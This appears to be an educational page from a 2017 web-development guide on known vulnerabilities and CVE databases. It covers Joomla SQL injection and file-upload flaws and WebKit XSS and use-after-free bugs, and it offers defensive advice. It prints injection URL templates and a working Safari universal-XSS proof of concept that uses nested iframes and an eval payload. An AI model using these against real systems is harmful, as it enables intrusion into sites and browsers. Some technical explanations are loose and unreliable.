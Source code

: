 Known Vulnerabilities
=====================

*Written by Nathan, Edited by Taylor and Collin.*

Introduction
------------

Known vulnerabilities are code creations that are known to cause unwanted and 
unintended effects. Because of the multitude of ways that websites can be 
attacked, web security is an ongoing fight between security developers and 
hackers. These security vulnerabilities can include a wide variety of exposures, 
including cross site scripting, SQL injection, insecure file uploads, 
authentication bypass, and many, many more. To keep things organized, the 
internet contains dozens of CVE (Common Vulnerabilities and Exposures) databases 
that are filled with examples of issues other people have found in certain websites. 

Why Release the Vulnerabilities to a Database?
----------------------------------------------

When the vulnerability is placed in the database, the developer isn't the only 
one who can make a query. Because the CVE databases are public, hackers can find 
the information just as easily, making the vulnerability a race between the 
developer and the hacker. This brings up the question: why would anyone want to 
create a database of known vulnerabilities? It's much easier to commit the 
attack than to patch a solution, test it, and push it to the server. 

Fortunately, the vulnerabilities are oftentimes placed in 
the database by the developer after the vulnerability has been patched. This is 
done to tighten security on applications being actively developed by other 
security experts. The experts can find common issues that have been discovered
by their like-minded peers, then implement the solutions into their own 
application. That being said, no software has been proven to be airtight, and 
vulnerabilities are being released every day to help combat mischievous 
attackers. These applications can be developed by anyone from small, upcoming 
businesses to software powerhouses. Below are two applications that are 
known to have vulnerabilities, including information on how to combat them. 

Joomla!
-------

Joomla! is a content management system that deals with website creation and 
distribution. A variety of sites have been created with Joomla, including 
Lipton Ice Tea, Lazarex Cancer Foundation, Michael Phelps' Store, and many more
[JOO]_. Because their product has been used to create millions of websites, 
security should be a primary concern to protect their partners and their 
partners' users. That being said, there is an extensive list in the Exploit 
Database with recent vulnerabilities with the Joomla application. Known 
vulnerabilities include:

**SQL Injection**

.. image:: sql_injection.gif

Joomla MSG (My Personal Messages) is a way in which users are able to 
communicate with one another through a website. An exploit was found that 
allowed for an attacker to log in as another user by appending the default 
message website path with SQL queries, resulting in an attacker being able to 
view other user's messages. 
`Here <http://2017-web-development.readthedocs.io/en/latest/sql_injection/sql_injection.html>`_ 
is a link with more information regarding SQL injections. Below is an example of 
how the SQL injection could be implemented into a URL to access another person's 
messages in Joomla MSG [EDB]_.::

	# View someone else's messages
	http://localhost/[PATH]/index.php?option=com_mymsg&view=msg&filter_box=[Insert_SQL_Here]
	# Reply as someone else
	http://localhost/[PATH]/index.php?option=com_mymsg&layout=edit&reply_id=[Insert_SQL_Here]

To protect against this, the web application should have steps in place to 
remove system database privileges from normal users. This will prevent an 
attacker from making their own queries into the database, assuming they haven't 
found a way to bypass the authentication of the database. 

**Insecure File Upload**

.. image:: insecure_file_upload.png

The default Joomla Event Manager (JEM) allows for an authenticated user to 
upload HTML and HTM files as an attachment. If an attacker was to upload the 
files containing malicious Javascript coding, a victim would be able to 
download said files. This would put them at risk to whatever hack the attacker 
created. More information on insecure file upload can be found 
`here <http://2017-web-development.readthedocs.io/en/latest/directory_traversal/directory_traversal.html>`_. In order to prevent this type of vulnerability, the 
JEM should restrict file uploads to valid files of a certain type.

Apple
-----

Apple is a large, multibillion-dollar company that offers a variety of 
services. One of these services includes Apple WebKit, a web browser engine 
used by OS X applications including Safari [AWK]_. Developers can use Apple WebKit to create their own web browsers. There are several past 
vulnerabilities found with Apple WebKit, including the following:

**Cross Site Scripting**

.. image:: xss.png

Cross Site Scripting (or XSS) is a vulnerability that is usually found within 
web applications. An attacker using XSS can inject their script to a normal 
website, which unknowingly passes the malicious script to the user [XSS]_. The 
script language is usually Javascript due to nearly every website using some 
form of it. The script can then read the information that the user's computer 
transmits to the website, including location and cookies. A further description 
of XSS can be found 
`here <http://2017-web-development.readthedocs.io/en/latest/xss/xss.html>`_.

Apple's WebKit engine (specifically on Safari 10.0.2) is vulnerable to this 
type of attack. The code attacks the FrameLoader::clear function that clears the
user's screen. XSS is then injected into the unload event handler with 
Javascript to execute whatever function the attacker desires. The code looks 
similar to this [EDB]_.::

	function main() {
	    let f = document.body.appendChild(document.createElement("iframe"));
	     
	    let a = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	    a.contentWindow.onunload = () => {
	        let b = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	        b.contentWindow.onunload = () => {
	            f.src = "javascript:''";
	 
	            let c = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	            c.contentWindow.onunload = () => {
	                f.src = "javascript:''";
	 
	                let d = f.contentDocument.appendChild(document.createElement("iframe"));
	                d.contentWindow.onunload = () => {
	                    f.src = "javascript:setTimeout(eval(atob('" + btoa("(" +function () {
	                        alert(document.location);
	                    } + ")") + "')), 0);";
	                };
	            };
	        };
	    };
	 
	    f.src = "https://abc.xyz/";
	}
	 
	main();

**Use After Free**

Use after free is an issue that targets memory corruption, attempting to access 
memory after it has been freed by the RAM. This attack can cause the 
application, or web browser, to crash. In more serious instances, this 
vulnerability can lead to the attacker remotely executing code on the user's 
computer [UAF]_. This vulnerability was found in regards to Apple's WebKit in 
the HTMLFormElement::reset() function. There was a flaw in how the software 
accessed the associated elements variable, allowing it to be modified by the
reset function. By adding custom elements to the variable while it is iterated, 
the already-existing elements are pushed forward, letting the attacker execute 
his or her own data [EDB]_. 

Prevention of Known Vulnerabilities
-----------------------------------

In order to protect your web projects, there are plenty of companies that 
perform security tests that spot weak points in your code. They can pull from 
CVE databases in order to attack your code in every which way, letting you know 
exactly how attackers will attempt to breach your security. Utilizing their 
services, as well as performing security tests of your own, is paramount in 
creating a safer, more secure internet. There are also update options offered 
by many CVE database sites, notifying you of any recent breaches in applications 
like yours. Therefore, using these databases and checking for past security 
exploits is the best way to prevent attackers from manipulating your website via 
known vulnerabilities. 


Works Cited
-----------
.. [JOO] "`Joomla.org." <https://www.joomla.org/>`_ Joomla! N.p., n.d. Web. 24 Feb. 2017.
.. [EDB] "`Offensive Security’s Exploit Database Archive." <https://www.exploit-db.com/>`_ Exploits Database by Offensive Security. N.p., n.d. Web. 24 Feb. 2017. 
.. [UAF] Stroud, Forrest. "`Use After Free." <http://www.webopedia.com/TERM/U/use-after-free.html>`_ What Is Use After Free? Webopedia Definition. N.p., n.d. Web. 26 Feb. 2017."
.. [AWK] "`WebKit." <https://webkit.org/>`_ WebKit. N.p., n.d. Web. 24 Feb. 2017.
.. [XSS] "`What Is Cross-site Scripting and How Can You Fix It?" <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_ Acunetix. N.p., n.d. Web. 25 Feb. 2017.